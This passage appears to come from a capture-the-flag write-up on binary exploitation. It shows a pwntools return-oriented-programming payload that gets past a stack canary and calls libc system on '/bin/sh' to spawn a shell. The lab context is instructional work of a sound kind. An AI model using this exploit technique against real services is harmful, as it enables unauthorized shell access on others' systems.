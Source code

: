 ![](./flag2-2.png)

All that is left is to use libc to get a shell.  In the left pane we'll have to attach to the parent using `p.pid` (from the right pane), then `c` to continue.

Same as before, but this time we point to `/bin/sh` in libc and call system:

```
payload  = buf + canary + bp
payload += p64(procbase + pop_rdi)
payload += p64(libcbase + next(libc.search(b"/bin/sh")))
payload += p64(libcbase + libc.symbols['system'])
```

This payload is just like before, use `pop rdi; ret` gadget to pop off the address that points to `/bin/sh` in libc, then call libc `system` to execute the shell:

```
p.sendline()
p.sendline(payload)
```

